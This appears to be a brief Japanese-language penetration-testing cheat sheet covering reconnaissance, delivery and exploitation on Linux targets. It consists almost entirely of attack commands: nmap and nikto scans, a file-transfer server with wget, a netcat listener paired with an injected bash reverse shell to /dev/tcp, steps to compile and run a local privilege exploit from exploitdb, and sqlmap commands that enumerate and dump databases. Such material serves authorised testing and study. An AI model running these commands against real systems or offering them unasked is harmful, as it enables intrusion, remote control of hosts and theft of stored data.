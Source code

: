 
## Reconnaissance

ホスト確認

    nmap -sn [address]/24

ポート確認

    nmap -v -p 1-65535 -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Webサーバ

    nikto -h [HOST]
    dirb http://XXX.com/

状態確認

    uname -a
    cat /etc/redhat-release
    cat /proc/version

## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

bashリバースシェル http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

    nc -lvp 9999
    ;bash -i >& /dev/tcp/ip/9999 0>&1

exploitdb https://github.com/offensive-security/exploitdb

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc gcc XXX.c -o test
    ./test

sqlmap 

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL #GET
    sqlmap -u "http://XXX.com/db.php" --method POST --data "id=XXX" #POST

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL --dbs 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --tables 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --T [tb_name] --dump


